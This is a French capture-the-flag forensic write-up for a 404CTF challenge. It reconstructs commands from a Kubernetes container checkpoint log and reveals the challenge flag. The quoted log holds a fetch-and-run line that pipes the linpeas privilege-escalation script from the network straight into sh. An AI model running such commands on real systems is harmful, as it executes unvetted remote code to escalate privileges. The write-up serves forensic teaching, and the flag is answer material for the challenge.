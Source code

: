 # Les Mystères du cluster de la Comtesse de Ségur [1/2]

<img alt="énoncé du challenge" src="enonce.png" width=500>

Le fichier fourni : [checkpoint-bash_default-bash-2023-05-06T090421Z.zip](checkpoint-bash_default-bash-2023-05-06T090421Z.zip)

On parcourt l'archive et on s'attache à explorer le contenu du fichier `io.kubernetes.cri-o.LogPath`.

Le contenu laisse penser à une tentative d'élévation de privilèges en téléchargeant des ressources externes comme PEASS-ng :

```txt
2023-05-12T09:01:37.503933132+00:00 stdout F 
root@bash:/# curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
...
2023-05-12T09:01:38.022633611+00:00 stdout P [1;34mLinux Privesc Checklist: [1;33mhttps://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist

```

Un peu plus loin dans le fichier on trouve : 

```txt
[##########################################################################################################################.......] 
2023-05-12T09:02:12.495282825+00:00 stdout P 8
2023-05-12T09:02:12.495604827+00:00 stdout F Processing triggers for libc-bin (2.31-13+deb11u6) ...
2023-05-12T09:02:12.501452112+00:00 stdout F 
2023-05-12T09:02:12.501525111+00:00 stdout P 7[0;31r8[1A
2023-05-12T09:02:12.501541055+00:00 stdout P [J
2023-05-12T09:02:38.405663786+00:00 stdout P [?2004hroot@bash:/# 
2023-05-12T09:02:44.208514789+00:00 stdout P c
2023-05-12T09:02:44.383673565+00:00 stdout P u
2023-05-12T09:02:44.495803721+00:00 stdout P r
2023-05-12T09:02:44.624212440+00:00 stdout P l
2023-05-12T09:02:44.784980308+00:00 stdout P  
2023-05-12T09:02:45.120117909+00:00 stdout P a
2023-05-12T09:02:45.280371026+00:00 stdout P g
2023-05-12T09:02:45.376097971+00:00 stdout P e
2023-05-12T09:02:45.535906452+00:00 stdout P n
2023-05-12T09:02:45.583746097+00:00 stdout P t
2023-05-12T09:02:45.888468179+00:00 stdout P .
2023-05-12T09:02:46.016785896+00:00 stdout P c
2023-05-12T09:02:46.144170561+00:00 stdout P h
2023-05-12T09:02:46.288366062+00:00 stdout P a
2023-05-12T09:02:46.448011579+00:00 stdout P l
2023-05-12T09:02:46.576356797+00:00 stdout P l
2023-05-12T09:02:46.656085743+00:00 stdout P e
2023-05-12T09:02:46.800369337+00:00 stdout P n
2023-05-12T09:02:46.848344444+00:00 stdout P g
2023-05-12T09:02:46.959441511+00:00 stdout P e
2023-05-12T09:02:47.120121199+00:00 stdout P s
2023-05-12T09:02:47.375883500+00:00 stdout P .
2023-05-12T09:02:47.872614586+00:00 stdout P 4
2023-05-12T09:02:48.112514781+00:00 stdout P 0
2023-05-12T09:02:48.288026121+00:00 stdout P 4
2023-05-12T09:02:48.383643814+00:00 stdout P c
2023-05-12T09:02:48.591967718+00:00 stdout P t
2023-05-12T09:02:48.736549789+00:00 stdout P f
2023-05-12T09:02:49.056036379+00:00 stdout P .
2023-05-12T09:02:49.152408250+00:00 stdout P f
2023-05-12T09:02:49.264672595+00:00 stdout P r
2023-05-12T09:02:49.423575100+00:00 stdout P  
2023-05-12T09:02:49.600169749+00:00 stdout P -
2023-05-12T09:02:50.016401267+00:00 stdout P o
2023-05-12T09:02:50.160043149+00:00 stdout P  
2023-05-12T09:02:50.288014049+00:00 stdout P a
2023-05-12T09:02:50.448409265+00:00 stdout P g
2023-05-12T09:02:50.544001546+00:00 stdout P e
2023-05-12T09:02:50.688011717+00:00 stdout P n
2023-05-12T09:02:50.752088042+00:00 stdout P t
2023-05-12T09:02:51.039827570+00:00 stdout P .
2023-05-12T09:02:51.200768807+00:00 stdout P z
2023-05-12T09:02:51.311881365+00:00 stdout P i
2023-05-12T09:02:51.536273713+00:00 stdout P p
```

La commande réalisée a donc été :

```bash
curl agent.challenges.404ctf.fr -o agent.zip
```

On appelle donc l'URL mentionnée dans le `curl` (i.e. https://agent.challenges.404ctf.fr/), ce qui déclenche le téléchargement d'un fichier [`agent.zip`](agent.zip)

Cette archive contient un fichier `flag.txt` :
```txt
404CTF{K8S_checkpoints_utile_pour_le_forensic}
```

